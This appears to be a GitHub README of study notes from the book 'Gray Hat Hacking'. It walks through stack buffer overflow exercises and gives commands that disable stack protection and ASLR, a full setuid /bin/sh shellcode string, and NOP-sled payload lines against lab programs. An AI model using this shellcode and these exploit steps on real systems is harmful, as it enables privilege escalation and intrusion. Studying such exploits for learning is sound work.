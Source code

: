 Grayshell
=========

Some basic shell code, when I learn &lt;Gray Hat Hacking>


#How to run 

##Example1 : Buffer_overflow
//notice we start out at user privileges "$"

```
gcc overflow.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -o overflow
``` 

```
$gdb -g overflow 
(gdb) run
(gdb) info req eip
(gdb) q
```

##Example2 : Meet.c
//notice we start out at user privileges "$"

```
gcc meet.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o meet
``` 
//notice the difference between ` and '

```
perl -e 'print "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";' > sc
```

```
./meet Mr `perl -e 'print "A" x 600'`
```
```
ESP: 0xbffffc48

0xbffffc48 - 0x300 = 0xbffff948

perl -e 'print "\x48\xf9\xff\xff"x38'

```
```
./meet Mr `perl -e 'print "\x90"x203';``cat sc``perl -e 'print "\x48\xf9\xff\xff"x38';`
```
```
0xbffff8d8
perl -e 'print "\xd8\xf8\xff\xff"x38'

./meet Mr `perl -e 'print "\x90"x203';``cat sc``perl -e 'print "\xd8\xf8\xff\xbf"x38';`

```
### v 0.3
```
:0xbffffbe8
```





##Example3 : Shellcode.c
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o shellcode shellcode.c
```
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

##Example4 : Repeat return address

```
gcc -o get_sp get_sp.c
```

### forbidden ASLR
```
echo "0" > /proc/sys/kernel/randomize_va_space 

ESP: 0xbffffc48


``` 

##Example5 : exploit.c
###general code
```

./exploit 600
```

##Example6 : smallbuff
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o smallbuff smallbuff.c
```
```
gcc exploit2.c -o exploit2
./exploit2
```

## peercast 
```
http://peercast.sourcearchive.com/downloads/0.1214.toots.svn20051112/
```
